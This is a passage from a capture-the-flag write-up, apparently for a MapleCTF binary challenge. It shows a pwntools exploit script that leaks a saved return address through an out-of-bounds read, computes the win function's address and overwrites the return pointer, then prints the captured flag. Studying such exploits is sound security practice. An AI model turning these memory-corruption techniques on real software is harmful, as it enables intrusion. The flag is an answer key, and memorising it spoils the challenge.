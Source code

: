 ```
payload.add(uwu.write)
log_print("rip padd offset", (0x410+0x8)//4)
payload.add(uwu.read)
payload.add(uwu.write)
log_print(payload.output())


io = start()
io.sendlineafter(b"Send me your cowode:\n",payload.output().encode())
io.sendlineafter(b"Input: ",str((0x410+0x8)//4).encode())
io.recvuntil(b"data: ")
main_rip_address = int(io.recvuntil(b"\n")[:-1:])
log_print("main rip address",main_rip_address,hex(main_rip_address & 0xffffffff))
win_real_addr = (main_rip_address & 0xfffff000) | (win_addr & 0xfff)
log_print("win_real_addr",win_real_addr,hex(win_real_addr))
io.sendlineafter(b"Input: ",str(win_real_addr).encode())

log_print("flag",io.recv())
```

**flag**: maple{nyo_wespect_fow_boundawies}